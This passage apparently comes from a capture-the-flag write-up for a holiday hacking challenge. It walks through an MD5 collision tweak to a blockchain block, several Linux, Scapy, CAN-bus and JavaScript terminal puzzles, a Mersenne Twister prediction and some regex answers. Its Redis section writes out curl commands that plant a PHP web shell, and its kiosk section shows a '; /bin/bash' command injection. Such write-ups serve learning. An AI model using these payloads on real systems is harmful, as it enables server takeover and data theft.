0x00000120 |e760 f31d 64af aa1e a1f2 a13d 6375 3e1a| .`..d......=cu>.
0x00000130 |a5bf 8062 4fc3 46bf d667 caf7 4995 91c4| ...bO.F..g..I...
0x00000140 |0201 edab 03b9 ef95 99[1b] 5b49 9f86 dc85| ..........[I.... ; col 9 val 0x1c - 1 = 0x1b
```

I edited the bytes, then made modifications to `naughty_nice.py` to output the correct SHA256 hash. In the output above, the bytes that were modified are in brackets.

```python
import hashlib
## there is additional code above, we append to main 
with open('official_public.pem', 'rb') as fh:
    official_public_key = RSA.importKey(fh.read())
c2 = Chain(load=True, filename='blockchain.dat')

def get_md5sum(data):
    hash_obj = MD5.new()
    hash_obj.update(data)
    return hash_obj.hexdigest()

for block in c2.blocks:
    if block.index == 129459:
        sha_hash = hashlib.sha256(block.block_data_signed()).hexdigest()
        md5_hash = get_md5sum(block.block_data())
        print("old sha256 = ", sha_hash)
        print("old md5 = ", md5_hash)

fh = open("block.dat", "rb")
bl = Block(load=True).load_a_block(fh)
read_hash = hashlib.sha256(bl.block_data_signed()).hexdigest()
md5_hash = get_md5sum(bl.block_data())
print("new md5 = ", md5_hash) # we make sure this matches the old md5_hash
                              # 347979fece8d403e06f89f8633b5231a
print("new sha256 = ", read_hash) # this should be our answer
```

Answer: fff054f33c2134e0230efb29dad515064ac97aa8c68d33c58c01213a0d408afb

---

## Terminals

### Redis Bug Hunt

There was a [hint](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) informing me I could interact with the Redis server by curling `http://localhost/maintenance.php?cmd=` and sending the sequence of commands to write a web shell to the server.

```bash
$ curl http://localhost/maintenance.php?cmd=config,set,dir,/var/www/html
$ curl http://localhost/maintenance.php?cmd=config,set,dbfilename,redis.php
$ curl http://localhost/maintenance.php?cmd=set,test,%3C%3Fphp+echo+shell_exec%28%24_GET%5B%27e%27%5D.%27+2%3E%261%27%29%3B+%3F%3E
$ curl http://localhost/maintenance.php?cmd=save
$ curl http://localhost/redis.php?e=cat+/var/www/html/index.php --output -
# We found the bug!!
#
#         \   /
#         .\-/.
#     /\ ()   ()
#       \/~---~\.-~^-.
# .-~^-./   |   \---.
#      {    |    }   \
#    .-~\   |   /~-.
#   /    \  A  /    \
#         \/ \/
# 
echo "Something is wrong with this page! Please use http://localhost/maintenance.php to see if
 you can figure out what's going on"
?>
```

### Unescape Terminal

Re attach to the tmux terminal with `tmux attach`

### Kringle Kiosk 

First we are told to spawn `/bin/bash.` Poking around we find user input can be entered in option 4: `Print Name Badge.` From there, we perform command injection with `; /bin/bash`

```bash
Welcome to our castle, we're so glad to have you with us!
Come and browse the kiosk; though our app's a bit suspicious.
Poke around, try running bash, please try to come discover,
Need our devs who made our app pull/patch to help recover?

Escape the menu by launching /bin/bash


Press enter to continue...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 Welcome to the North Pole!
~~~~~~~~~~~~~~~~~~~~~~~~~~~~
1. Map
2. Code of Conduct and Terms of Use
3. Directory
4. Print Name Badge
5. Exit


Please select an item from the menu by entering a single number.
Anything else might have ... unintended consequences.

Enter choice [1 - 5] 4
Enter your name (Please avoid special characters, they cause some weird errors)...;/bin/bash
 _______________________
< Santa's Little Helper >
 -----------------------
  \
   \   \_\_    _/_/
    \      \__/
           (oo)\_______
           (__)\       )\/\
               ||----w |
               ||     ||

   ___                                                      _    
  / __|   _  _     __      __      ___     ___     ___     | |   
  \__ \  | +| |   / _|    / _|    / -_)   (_-<    (_-<     |_|   
  |___/   \_,_|   \__|_   \__|_   \___|   /__/_   /__/_   _(_)_  
_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_| """ | 
"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 

Type 'exit' to return to the menu.
```

With our shell, we can read the source code and find the vulnerable code snippet:

```bash
four() {
  read -r -p "Enter your name (Please avoid special characters, they cause some weird errors)..." name
  if [ -z "$name" ]; then
    name="Santa\'s Little Helper"
  fi
  bash -c "/usr/games/cowsay -f /opt/reindeer.cow $name"
  pause
}
```

### Linux Primer

Here, we were presented with a series of Linux command-line prompts to find the right command for the job. The solution is the following sequence of commands:

```bash
# Perform a directory listing of your home directory to find a munchkin and retrieve a lollipop!
$ ls 
HELP  munchkin_19315479765589239  workshop

# Now find the munchkin inside the munchkin.
$ cat munchkin_19315479765589239
munchkin_24187022596776786

# Great, now remove the munchkin in your home directory.
$ rm munchkin_19315479765589239

# Print the present working directory using a command.
$ pwd
/home/elf

# Good job but it looks like another munchkin hid itself in you home directory. Find the hidden munchkin!
$ ls -la
total 56
drwxr-xr-x 1 elf  elf   4096 Dec 13 15:50 .
drwxr-xr-x 1 root root  4096 Dec 10 18:14 ..
-rw-r--r-- 1 elf  elf     31 Dec 10 18:18 .bash_history
-rw-r--r-- 1 elf  elf    220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 elf  elf   3105 Dec  5 00:00 .bashrc
-rw-r--r-- 1 elf  elf      0 Dec 13 15:50 .munchkin_5074624024543078
-rw-r--r-- 1 elf  elf    807 Apr  4  2018 .profile
-rw-r--r-- 1 elf  elf    168 Dec  5 00:00 HELP
drwxr-xr-x 1 elf  elf  20480 Dec 10 18:19 worksho

# Excellent, now find the munchkin in your command history.
$ history | grep munch
    1  echo munchkin_9394554126440791
    3  cat munchkin_19315479765589239 
    4  rm munchkin_19315479765589239 
    7  history | grep munch

# Find the munchkin in your environment variables.
$ env | grep munch
z_MUNCHKIN=munchkin_20249649541603754

# Next, head into the workshop.
$ cd workshop/

# A munchkin is hiding in one of the workshop toolboxes. Use "grep" while ignoring case to find which toolbox the munchkin is in.
$ grep -Ri "munchk" *
toolbox_191.txt:mUnChKin.4056180441832623

# A munchkin is blocking the lollipop_engine from starting. Run the lollipop_engine binary to retrieve this munchkin.
$ chmod +x ./lollipop_engine ; ./lollipop_engine
munchkin.898906189498077

# Munchkins have blown the fuses in /home/elf/workshop/electrical. cd into electrical and rename blown_fuse0 to fuse0.
$ cd electrical/ ; mv blown_fuse0 fuse0

# Now, make a symbolic link (symlink) named fuse1 that points to fuse0
$ ln -s fuse0 fuse1

# Make a copy of fuse1 named fuse2.
$ cp fuse1 fuse2

# We need to make sure munchkins don't come back. Add the characters "MUNCHKIN_REPELLENT" into the file fuse2.
$ echo "MUNCHKIN_REPELLENT" > fuse2

# Find the munchkin somewhere in /opt/munchkin_den.
$ cd /opt/munchkin_den ; ls -Rla | grep -i munchk
-rw-r--r-- 1 root root     0 Dec 10 18:20 mUnChKin.6253159819943018
-rw-r--r-- 1 munchkin munchkin    0 Dec 10 18:20 niKhCnUm_9528909612014411

# Find the file somewhere in /opt/munchkin_den that is owned by the user munchkin.
$ find /opt/munchkin_den -user munchkin
/opt/munchkin_den/apps/showcase/src/main/resources/template/ajaxErrorContainers/niKhCnUm_9528909612014411

# Find the file created by munchkins that is greater than 108 kilobytes and less than 110 kilobytes located somewhere in /opt/munchkin_den.
$ find /opt/munchkin_den -size +108k -size -110k
/opt/munchkin_den/plugins/portlet-mocks/src/test/java/org/apache/m_u_n_c_h_k_i_n_2579728047101724

# List running processes to find another munchkin.
$ ps aux | grep munch
elf      11804  1.7  0.0  84316 25992 pts/2    S+   15:55   0:00 /usr/bin/python3 /14516_munchkin
elf      12176  0.0  0.0  13240  1068 pts/3    S+   15:55   0:00 grep --color=auto munch

# The 14516_munchkin process is listening on a tcp port. Use a command to have the only listening port display to the screen.
$ netstat -tlpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:54321           0.0.0.0:*               LISTEN      11804/python3

# The service listening on port 54321 is an HTTP server. Interact with this server to retrieve the last munchkin.
$ curl localhost:54321
munchkin.73180338045875

# Your final task is to stop the 14516_munchkin process to collect the remaining lollipops.
$ kill -9 11804

# Congratulations, you caught all the munchkins and retrieved all the lollipops!
# Type "exit" to close...

$ exit
```

### Speaker Prep

We are presented with a password-protected binary and are given a hint that no reverse engineering is required.

We run strings and move on.

```bash
$ strings door | grep pass
/home/elf/doorYou look at the screen. It wants a password. You roll your eyes - the 
password is probably stored right in the binary. There's gotta be a
Be sure to finish the challenge in prod: And don't forget, the password is "Op3nTheD00r"
Beep boop invalid password

$ ./door 
You look at the screen. It wants a password. You roll your eyes - the 
password is probably stored right in the binary. There's gotta be a
tool for this...
What do you enter? > Op3nTheD00r
Checking......
Door opened!
```

### Scapy Prepper

We were presented with a series of tasks using Scapy. We had to craft packets using [this reference](https://0xbharath.github.io/art-of-packet-crafting-with-scapy/scapy/creating_packets/index.html).

```bash
╔════════════════════════════════════════════════════════════════╗
║  ___ ___ ___ ___ ___ _  _ _____   ___  _   ___ _  _____ _____  ║
║ | _ \ _ \ __/ __| __| \| |_   _| | _ \/_\ / __| |/ / __|_   _| ║
║ |  _/   / _|\__ \ _|| .` | | |   |  _/ _ \ (__| ' <| _|  | |   ║
║ |_| |_|_\___|___/___|_|\_| |_|   |_|/_/ \_\___|_|\_\___| |_|   ║
║                ___                                             ║
║               | _ \_ _ ___ _ __ _ __  ___ _ _                  ║
║               |  _/ '_/ -_) '_ \ '_ \/ -_) '_|                 ║
║               |_| |_| \___| .__/ .__/\___|_|                   ║
║                           |_|  |_|                             ║
║                (Packets prepared with scapy)                   ║
╚════════════════════════════════════════════════════════════════╝
Type "yes" to begin. 
╔════════════════════════════════════════════════════════════════╗
║ HELP MENU:                                                     ║
╠════════════════════════════════════════════════════════════════╣
║ 'help()' prints the present packet scapy help.                 ║
║ 'help_menu()' prints the present packet scapy help.            ║
║ 'task.get()' prints the current task to be solved.             ║
║ 'task.task()' prints the current task to be solved.            ║
║ 'task.help()' prints help on how to complete your task         ║
║ 'task.submit(answer)' submit an answer to the current task     ║
║ 'task.answered()' print through all successfully answered.     ║
╚════════════════════════════════════════════════════════════════╝
>>> task.get()
Welcome to the "Present Packet Prepper" interface! The North Pole could use your help preparin
g present packets for shipment.
Start by running the task.submit() function passing in a string argument of 'start'.
Type task.help() for help on this question.
>>> task.submit("start")
Correct! adding a () to a function or class will execute it. Ex - FunctionExecuted()
Submit the class object of the scapy module that sends packets at layer 3 of the OSI model.
>>> task.submit(send)
Correct! The "send" scapy class will send a crafted scapy packet out of a network interface.
Submit the class object of the scapy module that sniffs network packets and returns those pack
ets in a list.
>>> task.submit(sniff)
Correct! the "sniff" scapy class will sniff network traffic and return these packets in a list
.
Submit the NUMBER only from the choices below that would successfully send a TCP packet and th
en return the first sniffed response packet to be stored in a variable named "pkt":
1. pkt = sr1(IP(dst="127.0.0.1")/TCP(dport=20))
2. pkt = sniff(IP(dst="127.0.0.1")/TCP(dport=20))
3. pkt = sendp(IP(dst="127.0.0.1")/TCP(dport=20))
>>> task.submit(1)
Correct! sr1 will send a packet, then immediately sniff for a response packet.
Submit the class object of the scapy module that can read pcap or pcapng files and return a li
st of packets.

>>> task.submit(rdpcap)
Correct! the "rdpcap" scapy class can read pcap files.
The variable UDP_PACKETS contains a list of UDP packets. Submit the NUMBER only from the choic
es below that correctly prints a summary of UDP_PACKETS:
1. UDP_PACKETS.print()
2. UDP_PACKETS.show()
3. UDP_PACKETS.list()

>>> task.submit(2)
Correct! .show() can be used on lists of packets AND on an individual packet.
Submit only the first packet found in UDP_PACKETS.

>>> task.submit(UDP_PACKETS[0])
Correct! Scapy packet lists work just like regular python lists so packets can be accessed by 
their position in the list starting at offset 0.
Submit only the entire TCP layer of the second packet in TCP_PACKETS.

>>> task.submit(TCP_PACKETS[1][TCP])
Correct! Most of the major fields like Ether, IP, TCP, UDP, ICMP, DNS, DNSQR, DNSRR, Raw, etc.
.. can be accessed this way. Ex - pkt[IP][TCP]
Change the source IP address of the first packet found in UDP_PACKETS to 127.0.0.1 and then su
bmit this modified packet

>>> pkt = IP(src="127.0.0.1")
>>> task.submit(pkt)
Correct! You can change ALL scapy packet attributes using this method.
Submit the password "task.submit('elf_password')" of the user alabaster as found in the packet
 list TCP_PACKETS.
 
 >>> for pkt in TCP_PACKETS:
...     print(pkt.payload)
WARNING: Calling str(pkt) on Python 3 makes no sense!
b'E\x00\x000\xa7\xe3@\x00\x80\x06\xd0`\xc0\xa8\x00r\xc0\xa8\x00\xc1\x04q\x00\x15\xdf\xb3\xb2\x
fe\x00\x00\x00\x00p\x02@\x00)c\x00\x00\x02\x04\x05\xb4\x01\x01\x04\x02'
WARNING: Calling str(pkt) on Python 3 makes no sense!
b'E\x00\x000)`\x00\x00\x80\x06\x8e\xe4\xc0\xa8\x00\xc1\xc0\xa8\x00r\x00\x15\x04q\xc6\xc7\x01A\
xdf\xb3\xb2\xffp\x12@\x00aQ\x00\x00\x02\x04\x05\xac\x01\x01\x04\x02'
WARNING: more Calling str(pkt) on Python 3 makes no sense!
b'E\x00\x00(\xa7\xe4@\x00\x80\x06\xd0g\xc0\xa8\x00r\xc0\xa8\x00\xc1\x04q\x00\x15\xdf\xb3\xb2\x
ff\xc6\xc7\x01BP\x10D\x10\x89\xfd\x00\x00'
b'E\x00\x00F)a@\x00\x80\x06N\xcd\xc0\xa8\x00\xc1\xc0\xa8\x00r\x00\x15\x04q\xc6\xc7\x01B\xdf\xb
3\xb2\xffP\x18\xff\xff\xd9}\x00\x00220 North Pole FTP Server\r\n'
b'E\x00\x007\xa7\xe5@\x00\x80\x06\xd0W\xc0\xa8\x00r\xc0\xa8\x00\xc1\x04q\x00\x15\xdf\xb3\xb2\x
ff\xc6\xc7\x01`P\x18C\xf2\n\x98\x00\x00USER alabaster\r'
b'E\x00\x00M)b@\x00\x80\x06N\xc5\xc0\xa8\x00\xc1\xc0\xa8\x00r\x00\x15\x04q\xc6\xc7\x01`\xdf\xb
3\xb3\x0eP\x18\xff\xf0=\x9c\x00\x00331 Password required for alabaster.\r'
b'E\x00\x003\xa7\xe6@\x00\x80\x06\xd0Z\xc0\xa8\x00r\xc0\xa8\x00\xc1\x04q\x00\x15\xdf\xb3\xb3\x
0e\xc6\xc7\x01\x85P\x18C\xcd\xe9k\x00\x00PASS echo\r\n'
b'E\x00\x00F)c@\x00\x80\x06N\xcb\xc0\xa8\x00\xc1\xc0\xa8\x00r\x00\x15\x04q\xc6\xc7\x01\x85\xdf
\xb3\xb3\x19P\x18\xff\xe5\x00\xd3\x00\x00230 User alabaster logged in.\r'

>>> task.submit('echo')
Correct! Here is some really nice list comprehension that will grab all the raw payloads from 
tcp packets:
[pkt[Raw].load for pkt in TCP_PACKETS if Raw in pkt]
The ICMP_PACKETS variable contains a packet list of several icmp echo-request and icmp echo-re
ply packets. Submit only the ICMP chksum value from the second packet in the ICMP_PACKETS list
.
>>> task.submit(ICMP_PACKETS[1][ICMP].chksum)
Correct! You can access the ICMP chksum value from the second packet using ICMP_PACKETS[1][ICM
P].chksum .
Submit the number of the choice below that would correctly create a ICMP echo request packet w
ith a destination IP of 127.0.0.1 stored in the variable named "pkt"
1. pkt = Ether(src='127.0.0.1')/ICMP(type="echo-request")
2. pkt = IP(src='127.0.0.1')/ICMP(type="echo-reply")
3. pkt = IP(dst='127.0.0.1')/ICMP(type="echo-request")

>>> task.submit(3)
Correct! Once you assign the packet to a variable named "pkt" you can then use that variable t
o send or manipulate your created packet.
Create and then submit a UDP packet with a dport of 5000 and a dst IP of 127.127.127.127. (all
 other packet attributes can be unspecified)
 
>>> task.submit(IP(dst="127.127.127.127") / UDP(dport=5000))
Correct! Your UDP packet creation should look something like this:
pkt = IP(dst="127.127.127.127")/UDP(dport=5000)
task.submit(pkt)
Create and then submit a UDP packet with a dport of 53, a dst IP of 127.2.3.4, and is a DNS qu
ery with a qname of "elveslove.santa". (all other packet attributes can be unspecified)

>>> task.submit(IP(dst="127.2.3.4") / UDP(dport=53) / DNSQR(qname="elveslove.santa"))
Correct! Your UDP packet creation should look something like this:
pkt = IP(dst="127.2.3.4")/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname="elveslove.santa"))
task.submit(pkt)
The variable ARP_PACKETS contains an ARP request and response packets. The ARP response (the s
econd packet) has 3 incorrect fields in the ARP layer. Correct the second packet in ARP_PACKET
S to be a proper ARP response and then task.submit(ARP_PACKETS) for inspection.

>>> ARP_PACKETS[1].show()
###[ Ethernet ]### 
  dst       = 00:16:ce:6e:8b:24
  src       = 00:13:46:0b:22:ba
  type      = ARP
###[ ARP ]### 
     hwtype    = 0x1
     ptype     = IPv4
     hwlen     = 6
     plen      = 4
     op        = is-at
     hwsrc     = ff:ff:ff:ff:ff:ff
     psrc      = 192.168.0.1
     hwdst     = ff:ff:ff:ff:ff:ff
     pdst      = 192.168.0.114
###[ Padding ]### 
        load      = '\xc0\xa8\x00r'
>>> arp.hwsrc = "00:13:46:0b:22:ba"
>>> arp.hwdst = "00:16:ce:6e:8b:24"
>>> arp.op = 0x0002
>>> ARP_PACKETS[1][ARP] = arp
>>> task.submit(ARP_PACKETS)
Great, you prepared all the present packets!
Congratulations, all pretty present packets properly prepared for processing!
```

### CAN-Bus Investigation

**Objective**

```
Welcome to the CAN bus terminal challenge!
In your home folder, there's a CAN bus capture from Santa's sleigh. Some of
the data has been cleaned up, so don't worry - it isn't too noisy. What you
will see is a record of the engine idling up and down. Also in the data are
a LOCK signal, an UNLOCK signal, and one more LOCK. Can you find the UNLOCK?
We'd like to encode another key mechanism.
Find the timestamp of the UNLOCK code in candump.log and submit it to
./runtoanswer!
```

Time to find the needle in the haystack. There's a large number of CAN-Bus captured traffic that we need to parse through. We make use of grep for this task.

```bash
$ cat candump.log | grep -v "244" | grep -v "188"
(1608926664.626448) vcan0 19B#000000000000
(1608926671.122520) vcan0 19B#00000F000000
(1608926674.092148) vcan0 19B#000000000000
$ ./runtoanswer 
There are two LOCK codes and one UNLOCK code in the log.  What is the decimal portion of t
he UNLOCK timestamp?
(e.g., if the timestamp of the UNLOCK were 1608926672.391456, you would enter 391456.
> 122520
Your answer: 122520
Checking....
Your answer is correct!
```

### Javascript

It was a really cool experience to get to code solutions for a web game. The [quick tutorial on JavaScript](https://jgthms.com/javascript-in-14-minutes/) really helped show me what to do. I was able to use the instance methods on the provided objects to move the elf and collect lollipops on my way to the exit.

**Level 1**


```javascript
elf.moveLeft(10)
elf.moveUp(10)
```

**Level 2**


```javascript
elf.moveLeft(6);
elf.pull_lever(elf.get_lever(0) + 2);
elf.moveLeft(4);
elf.moveUp(10);
```

**Level 3**


```javascript
elf.moveTo(lollipop[0]);
elf.moveTo(lollipop[1]);
elf.moveTo(lollipop[2]);
elf.moveUp(1)
```

**Level 4**



```javascript
for (var ii = 0; ii <= 3; ii++) {
    elf.moveLeft(3);
    elf.moveUp(12);
    elf.moveLeft(2);
    elf.moveDown(12);
}
```

**Level 5**


```javascript
var answer = [];
elf.ask_munch(0).forEach(function(item) {
    if (typeof(item) == "number") {
        answer.push(item);   
    }
});
elf.moveTo(lollipop[1]);
elf.moveTo(lollipop[0]);
elf.tell_munch(answer);
elf.moveUp(3);
```

**Level 6**


```javascript
for (var ii = 0; ii < 4; ii++) {
    elf.moveTo(lollipop[ii]);
}
elf.moveTo(lever[0]);
var answer = elf.get_lever(0);
answer.unshift("munchkins rule");
elf.pull_lever(answer);
elf.moveDown(3);
elf.moveLeft(6);
elf.moveUp(4);
```

### Snowball Fight

There are easy, medium, hard, and impossible game modes. Somehow, a randomly generated number is responsible for generating the game board. In the impossible game mode, you can see html comments in the source code of a sequence of numbers.

Based on the hints, I used the Mersenne Twister Predictor to generate the current gameboard’s number. Then, I play *that* game on easy mode so I can see what the enemy’s board looks like. Once I knew what the enemy board looked like, I played it on impossible difficulty with ease.

```python
from mt19937predictor import MT19937Predictor

seeds = []
with open("snowball_seeds.txt", "r") as fd: # copied the html comments to this file
    seeds = fd.readlines()

predictor = MT19937Predictor()
for seedline in seeds:
    seed = int(seedline.split(" ")[0])
    predictor.setrandbits(seed, 32)

print(predictor.getrandbits(32))
print(predictor.getrandbits(32))
```


## Misc

### Phone

In the kitchen was Fitzy Sherstack standing alone

Desperate, he asked me for help with his phone.

In order to get past this old handshake,

we arranged the sounds so that they would take.

I was taken back to the 90s when I heard the modem

As soon as I solved it, I made sure I showed him.

Dial `756-8374`, then the sounds in this order:

```
baaDEEbrrr
aaah
WEWEWwrwrrwrr
beDURRdunditty
SCHHRRHHRTHRTR
```


Reward: "Your lights have been updated."

### Sort-o-matic

As soon as I saw there was regex to be done,

I immediately opened regex101.

With some guessing and just a bit of luck,

I entered my solution, not longer stuck:

1. Matches at least one digit: `\d{1}`

2. Matches 3 alpha a-z characters ignoring case: `[a-zA-Z]{3}`

3. Matches 2 chars of lowercase a-z or numbers: `[a-z0-9]{2}`

4. Matches any 2 chars not uppercase A-L or 1-5: `[^A-L1-5]{2}`

5. Matches three or more digits only: `^[0-9]{3,}$`

6. Matches multiple hour:minute:second time formats only: `^([0-2]{1}[0-9]{1}|[1-9]{1}):([0-5]{1}[0-9]{1}):([0-5]{1}[0-9]{1})$`

7. Matches MAC address format only ignoring case: `^([0-9A-Fa-f]{2}[:]){5}([0-9A-Fa-f]{2})$`

8. Matches multiple day, month, and year data formats only: `^[1|0]{1}[0-9]{1}[.|\-|\/]([0-3]{1}[0-1]{1}|[1-2]{1}[0-9]{1})[.|\-|\/][0-9]{4}$`

